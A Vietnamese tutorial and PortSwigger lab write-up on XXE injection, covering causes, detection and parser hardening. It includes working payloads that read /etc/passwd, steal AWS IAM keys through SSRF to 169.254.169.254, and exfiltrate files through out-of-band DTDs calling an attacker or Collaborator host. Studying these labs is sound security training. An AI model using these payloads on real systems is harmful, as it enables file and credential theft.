

# XXE

## **1. Tổng quan về XXE Injection**

### **1.1. XXE là gì?**

**Tên đầy đủ:** XML External Entity Injection.

**Bản chất:** Lỗ hổng xảy ra khi ứng dụng **phân tích (parse) dữ liệu XML** mà vẫn cho phép:

- Định nghĩa **external entity** (thực thể bên ngoài) trỏ tới file hoặc URL.
- Hoặc sử dụng các tính năng nguy hiểm khác của XML (DTD, XInclude, …).

**Hậu quả phổ biến:**

- Đọc file trên server (ví dụ **`/etc/passwd`**, config, source code).
- Thực hiện **SSRF (Server-Side Request Forgery)** từ server tới hệ thống nội bộ hoặc dịch vụ bên ngoài.
- Trong một số trường hợp có thể dẫn đến **RCE** hoặc tấn công vào hạ tầng backend.

> XXE là lỗ hổng “lạm dụng” các tính năng mạnh của XML (external entity, DTD, XInclude) để đọc file, SSRF, hoặc trích xuất dữ liệu blind.
> 

---

## **2. Nguyên nhân dẫn đến XXE**

### **2.1. Bối cảnh kỹ thuật**

Nhiều ứng dụng dùng **XML** để truyền dữ liệu giữa client và server (SOAP, REST với XML, config, upload file…).

Server thường dùng **thư viện XML parser** chuẩn (Java, .NET, PHP, Python, libxml2, …).

**Vấn đề:**

- Chuẩn XML cho phép các tính năng **nguy hiểm**:
    - **`DOCTYPE`** / DTD.
    - External entity.
    - **`XInclude`**.
- Nhiều parser **bật sẵn** các tính năng này theo mặc định, dù ứng dụng không cần dùng.

### **2.2. Cơ sở của tấn công**

**External entity:** là một loại XML entity có giá trị được load từ bên ngoài DTD (file path hoặc URL).

Khi parser xử lý **`<!ENTITY xxe SYSTEM "file:///etc/passwd">`**:

- Nó đọc file **`/etc/passwd`**.
- Gán nội dung file vào entity **`&xxe;`**.
- Nếu ứng dụng trả về entity đó trong response → attacker nhìn thấy nội dung file.

---

## **3. Các loại tấn công XXE chính**

Theo PortSwigger, có một số loại XXE phổ biến:



### **3.1. Classic XXE (có response)**

### **a) XXE để đọc file**

Yêu cầu:

1. Thêm/sửa **`DOCTYPE`** để định nghĩa external entity trỏ tới file cần đọc.
2. Sửa một data node trong XML sẽ được trả về trong response, thay bằng entity đó.

Ví dụ từ PortSwigger:

XML gốc:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Payload XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Nếu response có dạng:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

→ Nội dung **`/etc/passwd`** đã bị leak.

**NOTE:**

Trong thực tế, XML có thể có nhiều data node khác nhau.

Cần test **từng node một** bằng cách thay **`&xxe;`** vào từng vị trí và quan sát response.

### **b) XXE để thực hiện SSRF**

Định nghĩa external entity bằng **URL** thay vì file:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

Nếu entity được dùng trong response → attacker nhìn thấy nội dung từ hệ thống nội bộ.

Nếu không có response → vẫn có thể thực hiện **blind SSRF** (critical nếu backend có dịch vụ nhạy cảm).

---

### **3.2. Blind XXE**

Đặc điểm:

- **Không thấy giá trị external entity trong response** → không đọc file trực tiếp.

Vẫn có thể khai thác bằng các kỹ thuật nâng cao:

### **a) Out-of-band (OOB) data exfiltration**

Định nghĩa entity trỏ tới một server do attacker kiểm soát:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker-server.com/log"> ]>
```

Khi parser xử lý entity, server sẽ gửi HTTP request tới attacker-controlled server.

Dùng **Burp Collaborator** hoặc server tự host để:

- Xác nhận **blind XXE**.
- Đẩy dữ liệu nhạy cảm qua URL parameter, HTTP header, body.

### **b) Error-based XXE**

Mục tiêu: Gây **lỗi XML parse** sao cho **error message chứa dữ liệu nhạy cảm** (ví dụ nội dung file).

Ví dụ dùng **malicious external DTD**:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Khi DTD được load:

- Parser cố mở file không tồn tại: **`file:///nonexistent/<nội-dung-/etc/passwd>`**.
- Error message sẽ chứa toàn bộ nội dung file.

### **c) Tận dụng local DTD (repurposing local DTD)**

Khi **out-of-band bị chặn** (không gọi được external DTD), có thể:

- Tận dụng một **file DTD có sẵn trên server** (local DTD).
- Định nghĩa lại một entity đã có trong DTD đó để trigger error-based XXE.

Ví dụ:

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

Kỹ thuật này tận dụng “lỗ hổng” trong chuẩn XML cho phép **redefine entity** trong internal DTD khi kết hợp với external DTD.

---

### **3.3. Hidden attack surface – XXE “ẩn”**

Nhiều trường hợp XXE không nằm trong request XML rõ ràng, mà ở các dạng sau:

### **a) XInclude attacks**

Ứng dụng:

- Nhận data từ client.
- Nhúng data vào một XML document server-side (ví dụ backend SOAP).
- Sau đó parse document đó.

Attacker không control toàn bộ XML → không thể thêm **`DOCTYPE`**.

Nhưng có thể dùng **XInclude** – chuẩn cho phép gộp các XML document con.

Payload ví dụ:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

Chỉ cần control một data node trong XML là có thể đọc file.

### **b) XXE qua file upload**

Một số format file **dựa trên XML**:

- SVG (image).
- DOCX, XLSX, PPTX, ODT, etc.

Ứng dụng cho phép upload file (ảnh, doc, …), sau đó server xử lý bằng thư viện hỗ trợ XML (ví dụ Apache Batik cho SVG).

Attacker upload file SVG/DOCX chứa XXE:

- Khi server parse XML bên trong file → XXE được trigger.
- Có thể đọc file hoặc SSRF.

Ví dụ SVG malicious:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
<text>&xxe;</text>
</svg>
```

### **c) XXE qua modified content type**

Nhiều form POST dùng **`Content-Type: application/x-www-form-urlencoded`**.

Nhưng một số server:

- Chấp nhận cả **`Content-Type: text/xml`** hoặc **`application/xml`**.
- Parse body như XML.

Nếu server không lọc kỹ, attacker có thể:

- Đổi content type thành **`text/xml`**.
- Gửi XML body chứa XXE.

Ví dụ:

```xml
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52
<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

Nếu server xử lý XML này → có thể khai thác XXE.

---

## **4. Detec**

### **4.1. Sử dụng Burp Scanner**

Phần lớn XXE có thể tìm tự động bằng **Burp Suite Scanner**:

- Quét qua các request XML.
- Tự động inject các payload XXE, XInclude,…
- Xác nhận OOB interaction qua Burp Collaborator.

### **4.2. Manual testing**

PortSwigger gợi ý các bước test chính:

**Test file retrieval (classic XXE)**

- Định nghĩa entity trỏ tới file test (**`/etc/passwd`** hoặc **`c:\windows\win.ini`**).
- Thay entity vào các data node có thể xuất hiện trong response.
- Quan sát xem nội dung file có xuất hiện không.

**Test blind XXE bằng OOB**

- Định nghĩa entity trỏ tới Collaborator/server của bạn.
- Gửi request và xem có interaction không.
- Nếu có → blind XXE confirmed.

**Test XInclude**

- Với các điểm control data nhưng không control toàn bộ XML:
    - Inject XInclude payload.
    - Xem file test có xuất hiện trong response không.

**Test file upload / content type**

- Upload SVG, DOCX,… chứa XXE.
- Đổi content type từ **`urlencoded`** sang **`xml`** và gửi XML body.

---

## **5. Prevent XXE**

### **5.1. Nguyên tắc chung**

**Tắt các tính năng XML không cần thiết:**

- Vô hiệu hóa **resolution của external entity**.
- Vô hiệu hóa **XInclude** nếu không dùng.

Cách thực hiện:

- **Cấu hình parser** (tham số cấu hình, flag, …).
- Hoặc **override behavior** bằng code (tùy ngôn ngữ/framework).

> “Virtually all XXE vulnerabilities arise because the application's XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The easiest and most effective way to prevent XXE attacks is to disable those features.”
> 

### **5.2. Ví dụ cấu hình theo ngôn ngữ lập trình khác nhau**

**Java (JAXP, DOM, SAX, StAX):**

- Đặt feature để disable DTD, external entities:
    - **`http://apache.org/xml/features/disallow-doctype-decl`**, set **`true`**.
    - Hoặc configure **`XMLInputFactory`**/**`SAXParser`** để disable external entities.

**.NET (XmlReader, XDocument):**

- Sử dụng **`XmlReaderSettings`** với:
    - **`DtdProcessing = DtdProcessing.Prohibit`**.
    - **`XmlResolver = null`**.

**PHP:**

- **`libxml_disable_entity_loader(true)`** (PHP < 8) hoặc cấu hình **`libxml`** không load external entities.
- Đồng thời không truyền user data vào **`simplexml_load_string`** mà không lọc.

## 6. Hands-on Lab: PortSwigger

### **1. Lab: Exploiting XXE using external entities to retrieve files**

Lab có tính năng “Check stock” parse XML input và trả về các giá trị không mong muốn trong response.

Mục tiêu là khai thác lỗ hổng XXE để đọc nội dung file: `/etc/passwd` trên server.



Như mô tả của bài, mình chạy thẳng đến nơi check stock của bài.


Quan sát HTTP history trên burp, thấy gói tin POST mà mình vừa gửi có định dạng XML. Send nó qua tab Repeater.


 Phần XML có thể thấy nó check producID rồi storedID để xác định số lượng tồn kho của sản phẩm tại địa chỉ cửa hàng nào đó. 

Thêm **`DOCTYPE`** định nghĩa external entity **`xxe`** trỏ tới **`/etc/passwd`**. Sau đó  sử dụng entity **`&xxe;`** để nội dung file được chèn vào vị trí **`productId`**.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
<productId>&xxe;</productId>
</stockCheck>
```


**Kết quả:** Server đã in nội dung file **`/etc/passwd`** vào thông báo lỗi.


### **2. Lab: Exploiting XXE to perform SSRF attacks**

Chức năng **“Check stock”** xử lý XML input. Server mô phỏng một EC2 metadata endpoint tại **`http://169.254.169.254/`** (AWS metadata IP).

Mục tiêu: dùng **XXE** để thực hiện **SSRF**, đọc **IAM secret access key** từ metadata endpoint.


Dựa vào mô tả của bài thì mình có ý tưởng như sau để khai thác:

> Ứng dụng cho phép định nghĩa **External Entity** trong XML.
> 
> 
> Thay vì trỏ entity vào file (**`file://`**), ta trỏ vào một **URL nội bộ** mà server có thể truy cập:
> 
> - **`http://169.254.169.254/`** – metadata endpoint của AWS (dựa vào phần mô tả).
> 
> Khi parser XML xử lý **`SYSTEM "http://169.254.169.254/..."`**, server sẽ:
> 
> - Tự gửi HTTP request đến metadata endpoint (SSRF).
> - Trả nội dung response về cho ta (In‑band XXE + SSRF).

Sử dụng Burp Suite bắt request khi tương tác với nút "Check stock". Trong HTTP history xuất hiện request **`POST /product/stock`** với body là dữ liệu XML:


Dựa vào ý tưởng đã nêu, mình thay payload XXE truyền thống để đọc file hệ thống (**`file://`**), hướng đi thay đổi là sử dụng External Entity để buộc server gửi request đến metadata endpoint nội bộ (**`http://169.254.169.254/`**)


Response trả về danh sách các thư mục (ví dụ: **`latest`**). Điều này xác nhận server đã thực hiện request đến endpoint và phản hồi dữ liệu thành công.

Tiếp tục chỉnh sửa URL trong entity để duyệt qua cấu trúc thư mục dựa trên phản hồi nhận được:

- **`http://169.254.169.254/latest/`** -> Phát hiện thư mục **`meta-data`**.
- **`http://169.254.169.254/latest/meta-data/`** -> Phát hiện thư mục **`iam`**.
- **`http://169.254.169.254/latest/meta-data/iam/security-credentials/`** -> Phát hiện user **`admin`**.


Trỏ URL chính xác đến thông tin đăng nhập của admin:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

Lúc này, Response trả về nội dung JSON chứa **`SecretAccessKey`**.


Tấn công thành công thông qua việc kết hợp XXE và SSRF. Lỗ hổng cho phép truy cập các tài nguyên nội bộ nhạy cảm mà không cần quyền truy cập trực tiếp từ bên ngoài.

### **3. Lab: Blind XXE with out-of-band interaction**

Mô tả lab xác nhận tính năng "Check stock" xử lý dữ liệu XML nhưng **không hiển thị** kết quả của các thực thể được định nghĩa trong response HTTP. Mục tiêu là xác nhận sự tồn tại của lỗ hổng bằng cách kích hoạt một tương tác DNS/HTTP đến một hệ thống bên ngoài.


Tương tác với tính năng "Check stock" và quan sát request trong Burp.


**Response:** Chỉ trả về thông tin số lượng hàng, không có sự phản chiếu dữ liệu đầu vào. Điều này xác nhận phương pháp khai thác trực tiếp (in-band) không khả thi.

Vì không thể nhìn thấy kết quả trực tiếp, hướng đi là sử dụng kỹ thuật **OOB**. Buộc server gửi request đến một máy chủ do mình kiểm soát (mình dùng Burp Collaborator). Nếu có log request truy cập, chứng tỏ server đã xử lý XML và thực thi entity.

Mở **Burp Collaborator client** từ menu Burp, chọn "Copy to clipboard" để lấy một URL.

[`e0fv003d0jx4m8urbrwzpw1spjvaj17q.oastify.com`](http://e0fv003d0jx4m8urbrwzpw1spjvaj17q.oastify.com/)


Quay lại request **`POST /product/stock`**, chèn **`DOCTYPE`** và External Entity trỏ đến URL Collaborator đã sao chép. Lưu ý phải gọi entity **`&xxe;`** bên trong thẻ dữ liệu để parser thực thi nó.


Sau khi gửi request, quay lại cửa sổ **Burp Collaborator client** và nhấn "Poll now".


**Kết quả:** Collaborator ghi nhận các tương tác HTTP và DNS từ phía server lab. Server đã parse XML, nhận diện và thực thi External Entity bằng cách gửi request ra bên ngoài. 

### **4. Lab: Blind XXE with out-of-band interaction via XML parameter entities**

Mục tiêu vẫn là kích hoạt tương tác Out-of-band để xác nhận lỗ hổng XXE. Tuy nhiên, đề bài và tên lab gợi ý rằng phương pháp khai thác thông thường bằng **External Entity** cơ bản (**`<!ENTITY xxe SYSTEM "...">`**) có thể bị chặn hoặc không khả thi (do input validation hoặc filter). Giải pháp thay thế là sử dụng **Parameter Entities**.


Quan sát request **`POST /product/stock`** trong Burp History. Cấu trúc dữ liệu gửi đi là XML tiêu chuẩn:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

Nếu thử chèn payload XXE cơ bản vào **`DOCTYPE`** mà không thấy phản hồi hoặc bị lỗi, hướng đi tiếp theo là thử nghiệm với Parameter Entities.


Giải pháp thay thế là sử dụng **Parameter Entities:**

> **Parameter Entities** là các thực thể đặc biệt trong XML DTD, được ký hiệu bằng dấu **`%`**. Chúng chỉ có thể được sử dụng trong khu vực DTD (không dùng trực tiếp trong phần thân XML như regular entity). Điểm mạnh của loại entity này là có thể tải dữ liệu từ bên ngoài ngay trong quá trình parser xử lý DTD, giúp vượt qua các bộ lọc chặn regular entities.
> 

Thực hiện lại các bước trên tab Collaborator để lấy URL: [`r6y86d9q6w3hsl04h42cv975vw1oped3.oastify.com`](http://r6y86d9q6w3hsl04h42cv975vw1oped3.oastify.com/)


Payload cần định nghĩa một parameter entity trỏ đến URL Collaborator và "gọi" nó ngay lập tức trong khối DTD.

Cấu trúc payload gửi đi:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [
<!ENTITY % xxe SYSTEM "http://YOUR-COLLABORATOR-URL">
%xxe;
]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

*Giải thích một tí:*

**`<!ENTITY % xxe SYSTEM "...">`**: Định nghĩa thực thể tham số tên là **`xxe`**.

**`%xxe;`**: Gọi thực thể này ngay lập tức. Khi parser đọc đến dòng này, nó sẽ thực hiện request HTTP đến URL đã định nghĩa.


Gửi request đã chỉnh sửa đến server. Quay lại Burp Collaborator client và nhấn "Poll now".


Collaborator ghi nhận các tương tác HTTP và DNS từ server lab. Sử dụng Parameter Entity thành công trong việc kích hoạt yêu cầu OOB, xác nhận lỗ hổng Blind XXE tồn tại ngay cả khi regular entities bị chặn.

### 5. **Lab: Exploiting blind XXE to retrieve data via error messages**

Mô tả lab cho biết:

- Chức năng **“Check stock”** vẫn xử lý XML input.
- Tuy nhiên **không hiển thị kết quả** của các entity trong response (blind XXE).
- Yêu cầu cụ thể: Dùng **external DTD** để trigger một **error message** có chứa nội dung file **`/etc/passwd`**.

Không cần out‑of‑band (HTTP/DNS) về server của mình, mà tận dụng luôn **error message** do XML parser ném ra, bên trong đó có dữ liệu mình muốn lấy.


Mình lại tương tác với “Check stock”, quan sát request trong Burp. Response chỉ trả về số lượng hàng, không reflection dữ liệu, không thấy output của entity.


Vì là blind XXE, hướng khai thác phải dùng:

- **Parameter entities** (**`%`**) trong DTD.
- **External DTD** do mình host, để parser tải về và thực thi.
- Kỹ thuật đặc biệt: **tạo error message chứa nội dung file**.

> Định nghĩa một parameter entity **`file`** đọc **`/etc/passwd`**, sau đó tạo một parameter entity **`error`** trỏ đến một **file không tồn tại** có tên chứa nội dung của **`file`**. Khi parser cố load file đó, sẽ ném lỗi có tên file → bên trong tên file chính là nội dung **`/etc/passwd`**.
> 

**Mình đi chuẩn bị malicious DTD trên exploit server.** Bước này dựa trên gợi ý solution của lab:

Trong lab, bấm **“Go to exploit server”**. Tạo một file DTD (ví dụ **`malicious.dtd`**) với nội dung:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error
```

**`<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`**

Định nghĩa entity **`%eval;`**, bên trong nó lại khai báo một entity khác là **`%error;`**.

**`&#x25;`** là mã hoá của **`%`**, để trong nội dung entity có thể viết **`%error`**.

Entity **`%error;`** trỏ đến **`file:///nonexistent/%file;`**  nghĩa là:

- **`%file;`** sẽ được thay bằng nội dung **`/etc/passwd`**.
- Như vậy parser sẽ cố mở một file có đường dẫn là **`file:///nonexistent/<nội-dung-/etc/passwd>`**.

Lưu file, bấm **“View exploit”** để lấy URL của DTD, ví dụ:

[`https://exploit-0a2400e3046d609f82d48c3001fd0095.exploit-server.net/malicious.dtd`](https://exploit-0a2400e3046d609f82d48c3001fd0095.exploit-server.net/malicious.dtd)

Quay lại lab, vào trang sản phẩm, bấm **“Check stock”** và intercept request trong Burp.

Gửi request sang **Repeater**, sửa body thành:


**`<!ENTITY % xxe SYSTEM "YOUR-DTD-URL">`** – định nghĩa parameter entity **`%xxe;`** trỏ đến DTD đã tạo.

Sau khi gửi request. Response trả về là một **error message** của XML parser.


Đoạn **`/nonexistent/...`** chính là:

- **`file:///nonexistent/<nội-dung-/etc/passwd>`**.
- Như vậy, nội dung **`/etc/passwd`** đã được “gắn” vào error message và hiển thị trong response.

### 6. **Lab: Exploiting XXE to retrieve data by repurposing a local DTD**

Mục tiêu vẫn là đọc file **`/etc/passwd`** thông qua lỗi XML (error-based). Tuy nhiên, đề bài nêu rõ: **Out-of-band (OAST) interactions are blocked**.

Điều này đồng nghĩa:

- Không thể dùng Burp Collaborator để kiểm tra.
- Không thể host một file DTD độc hại trên server bên ngoài và bắt nạn nhân tải về (vì request ra ngoài bị chặn).

Hướng giải quyết bắt buộc phải tìm cách khai thác **ngay trên chính server nạn nhân** (Local DTD).


#### **Phân tích một tí về hướng khai thác ở bài này**

Để kích hoạt lỗi error-based XXE, ta cần thực thi một chuỗi các Parameter Entity (như bài lab trước: **`file`** -> **`eval`** -> **`error`**). Thông thường, việc gọi một entity bên trong định nghĩa của một entity khác (như **`%eval;`** trong **`eval`**) chỉ được phép trong **External DTD**.

Vì không thể tải External DTD từ bên ngoài, ta cần tìm một **DTD file có sẵn trên server** (Local DTD) để lợi dụng.

**Cơ chế tấn công (Hybrid DTD):**

1. Tìm một file **`.dtd`** có sẵn trên hệ thống (ví dụ: đường dẫn mặc định của các gói phần mềm).
2. Tìm một entity định nghĩa sẵn trong file DTD đó để redefine.
3. Định nghĩa lại entity đó trong payload XXE của mình, nhúng chuỗi payload gây lỗi vào bên trong.
4. Khi parser tải file DTD cục bộ, nó sẽ thấy định nghĩa mới của ta và thực thi, kích hoạt lỗi.

#### **Quy trình khai thác**

1. **Xác định Local DTD và Entity mục tiêu**
Lab thường sử dụng các đường dẫn phổ biến. Một ứng path kinh điển trên hệ thống Linux là file DTD của gói GNOME Yelp: **`/usr/share/yelp/dtd/docbookx.dtd`**.
Trong file này, có một entity tên là **`ISOamso`**.
2. **Xây dựng Payload (Hybrid DTD)**
Payload sẽ được chèn trực tiếp vào DOCTYPE của request. Cấu trúc bao gồm:
- Gọi file DTD cục bản bằng **`SYSTEM`**.
- Định nghĩa lại entity **`ISOamso`** (đã tồn tại trong file DTD gốc) để chứa chuỗi tấn công error-based.

Mã payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!-- 1. Trỏ đến file DTD cục bộ -->
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!-- 2. Định nghĩa lại entity có sẵn trong file DTD đó -->
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x25; error SYSTEM &#x27;file:///nonexistent/%file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
<!-- 3. Gọi entity tải DTD cục bộ để kích hoạt quá trình xử lý -->
%local_dtd;
]>
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```


Gửi request này đến server. Server sẽ:

1. Đọc DOCTYPE.
2. Thực thi **`%local_dtd;`**, tải file **`/usr/share/yelp/dtd/docbookx.dtd`**.
3. Trong quá trình tải, nó gặp định nghĩa mới của **`ISOamso`** (được ưu tiên hơn định nghĩa cũ).
4. Thực thi chuỗi entity bên trong **`ISOamso`**: Đọc **`/etc/passwd`** -> Tạo đường dẫn file lỗi -> Gây lỗi.


### 7. **Lab: Exploiting XInclude to retrieve files**

Mục tiêu vẫn là đọc file **`/etc/passwd`**. Tuy nhiên, đề bài ám chỉ rằng ta không thể kiểm soát toàn bộ cấu trúc tài liệu XML (không thể chèn **`DOCTYPE`** định nghĩa entity).


Quan sát tính năng "Check stock", dữ liệu gửi đi có vẻ là các tham số đơn lẻ (ví dụ: ID sản phẩm) được server nhận và nhúng vào một tài liệu XML lớn hơn ở backend để xử lý. Nếu cố gắng chèn **`<!DOCTYPE ...>`** trực tiếp vào tham số này, cấu trúc XML sẽ bị lỗi hoặc server sẽ từ chối.


Trong trường hợp không thể định nghĩa DTD (DOCTYPE bị chặn hoặc không có quyền kiểm soát root element), **XInclude** là vector tấn công thay thế hiệu quả.

- **XInclude là gì?** Là một cơ chế trong chuẩn XML cho phép gộp (include) nội dung từ các tài liệu khác vào tài liệu hiện tại.
- **Tại sao dùng ở đây?** XInclude có thể được sử dụng ngay bên trong các element dữ liệu (data node) mà không cần khai báo trong DOCTYPE. Ta chỉ cần chèn một tag XML hợp lệ vào vị trí dữ liệu nhập vào.

Thay vì gửi một con số cho **`productId`**, ta gửi một đoạn XML sử dụng XInclude để trỏ đến file mục tiêu.


Response trả về sẽ chứa nội dung của file **`/etc/passwd`** thay vì thông tin sản phẩm. Điều này chứng minh server đã xử lý XInclude tag mà không có sự lọc hay tắt tính năng này.

### 8. **Lab: Exploiting XXE via image file upload**

Mục tiêu là đọc file **`/etc/hostname`** và submit giá trị của nó. Đề bài cho biết lab có tính năng đăng bình luận (post comment) và cho phép đính kèm **avatar**.

Gợi ý quan trọng: **Định dạng ảnh SVG sử dụng XML**.
Điều này gợi ý rằng nếu server xử lý file upload bằng một thư viện parse XML (như Apache Batik được nhắc đến), kẻ tấn công có thể chèn mã XXE vào bên trong file SVG thay vì chèn vào request body như các bài trước.


Thông thường, người dùng upload file ảnh dạng binary (JPG, PNG). Tuy nhiên, nếu server chấp nhận hoặc không chặn triệt để định dạng SVG, kẻ tấn công có thể:

1. Tạo một file text có cấu trúc XML chuẩn của file SVG.
2. Chèn payload XXE (định nghĩa ENTITY) vào phần đầu (DOCTYPE) của file SVG này.
3. Upload file lên và đợi server xử lý. Nếu server parse file SVG để xử lý (ví dụ: chuyển đổi định dạng, lấy kích thước, hoặc render xem trước), entity sẽ được thực thi.
4. Nội dung nhạy cảm sẽ được inject vào nội dung hình ảnh hoặc phản hồi của server.

Tạo một file trên máy tính tên là **`exploit.svg`** với nội dung sau:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Sau đo ta đi truy cập một bài viết bất kỳ trên lab. Sử dụng tính năng "Post comment". Tại trường "Avatar", chọn file **`exploit.svg`** vừa tạo. Nhập các thông tin còn lại (Name, Email, Comment) và nhấn "Post Comment".


Sau khi đăng comment thành công, truy cập vào bài viết đó để xem comment vừa đăng.

- Avatar sẽ được hiển thị.
- Thay vì hiển thị hình ảnh thông thường, nội dung của file **`/etc/hostname`** (ví dụ: **`b8e4c...`**) sẽ hiện ra trên hình ảnh avatar (hoặc có thể xem được qua source code trang web/Inspect Element).


Copy nội dung hostname vừa nhìn thấy, quay lại giao diện lab và nhấn nút "Submit solution", dán giá trị vào để hoàn thành.


### **9. Lab: Blind XXE with out-of-band data exfiltration**

Tương tự các bài Blind XXE trước, tính năng "Check stock" xử lý XML nhưng không phản hồi dữ liệu lại (blind). Mục tiêu lần này là đánh cắp nội dung file **`/etc/hostname`** thông qua kỹ thuật Out-of-band (OOB).

Đề bài cung cấp một **Exploit Server** (máy chủ khai thác) để lưu trữ mã độc, gợi ý rằng ta cần host một file DTD bên ngoài để thực hiện tấn công.


Truy cập "Go to exploit server" được cung cấp trong lab. Tạo một file DTD (ví dụ: **`exploit.dtd`**) với nội dung sau:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-URL/?x=%file;'>">
%eval;
%exfil;
```


Quay lại lab, tương tác với "Check stock". Chèn payload tham chiếu đến file DTD vừa tạo:


Gửi request đi.

1. Server nạn nhân sẽ nhận XML, thấy tham chiếu đến **`exploit.dtd`** trên Exploit Server của mình -> Nó tải file DTD này về.
2. Parser xử lý các lệnh trong DTD: Đọc **`/etc/hostname`** -> Tạo HTTP request gửi đến Burp Collaborator URL.

Mở **Burp Collaborator client** và nhấn "Poll now". Sẽ xuất hiện các tương tác HTTP.
Kiểm tra chi tiết request, sẽ thấy nội dung file hostname nằm trong tham số **`x`** của request GET (ví dụ: **`GET /?x=hostname-value`**).

